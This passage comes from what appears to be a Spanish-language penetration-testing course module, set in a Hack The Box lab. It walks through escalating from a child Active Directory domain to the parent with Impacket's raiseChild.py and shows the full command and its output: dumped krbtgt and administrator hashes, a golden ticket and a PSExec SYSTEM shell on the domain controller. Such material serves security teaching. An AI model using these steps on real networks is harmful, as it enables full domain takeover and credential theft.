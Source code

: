 ```shell-session
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> hostname
ACADEMY-EA-DC01
```

Impacket también tiene la herramienta [raiseChild.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/raiseChild.py), que automatizará la escalada del dominio secundario al principal. Necesitamos especificar el controlador de dominio de destino y las credenciales para un usuario administrativo en el dominio secundario; el guión hará el resto. Si revisamos el resultado, vemos que comienza enumerando los nombres de dominio completos (FQDN) del dominio secundario y principal. Entonces:

- Obtiene el SID para el grupo de administradores empresariales del dominio principal.
- Recupera el hash de la cuenta KRBTGT en el dominio secundario.
- Crea un billete dorado
- Inicia sesión en el dominio principal
- Recupera las credenciales de la cuenta de administrador en el dominio principal

Finalmente, si se especifica el modificador `target-exec`, se autentica en el controlador de dominio del dominio principal a través de Psexec.
#### Realizando el ataque con riseChild.py

```shell-session
lilscott6x9@htb[/htb]$ raiseChild.py -target-exec 172.16.5.5 LOGISTICS.INLANEFREIGHT.LOCAL/htb-student_adm

Impacket v0.9.25.dev1+20220311.121550.1271d369 - Copyright 2021 SecureAuth Corporation

Password:
[*] Raising child domain LOGISTICS.INLANEFREIGHT.LOCAL
[*] Forest FQDN is: INLANEFREIGHT.LOCAL
[*] Raising LOGISTICS.INLANEFREIGHT.LOCAL to INLANEFREIGHT.LOCAL
[*] INLANEFREIGHT.LOCAL Enterprise Admin SID is: S-1-5-21-3842939050-3880317879-2865463114-519
[*] Getting credentials for LOGISTICS.INLANEFREIGHT.LOCAL
LOGISTICS.INLANEFREIGHT.LOCAL/krbtgt:502:aad3b435b51404eeaad3b435b51404ee:9d765b482771505cbe97411065964d5f:::
LOGISTICS.INLANEFREIGHT.LOCAL/krbtgt:aes256-cts-hmac-sha1-96s:d9a2d6659c2a182bc93913bbfa90ecbead94d49dad64d23996724390cb833fb8
[*] Getting credentials for INLANEFREIGHT.LOCAL
INLANEFREIGHT.LOCAL/krbtgt:502:aad3b435b51404eeaad3b435b51404ee:16e26ba33e455a8c338142af8d89ffbc:::
INLANEFREIGHT.LOCAL/krbtgt:aes256-cts-hmac-sha1-96s:69e57bd7e7421c3cfdab757af255d6af07d41b80913281e0c528d31e58e31e6d
[*] Target User account name is administrator
INLANEFREIGHT.LOCAL/administrator:500:aad3b435b51404eeaad3b435b51404ee:88ad09182de639ccc6579eb0849751cf:::
INLANEFREIGHT.LOCAL/administrator:aes256-cts-hmac-sha1-96s:de0aa78a8b9d622d3495315709ac3cb826d97a318ff4fe597da72905015e27b6
[*] Opening PSEXEC shell at ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
[*] Requesting shares on ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL.....
[*] Found writable share ADMIN$
[*] Uploading file BnEGssCE.exe
[*] Opening SVCManager on ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL.....
[*] Creating service UVNb on ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL.....
[*] Starting service UVNb.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```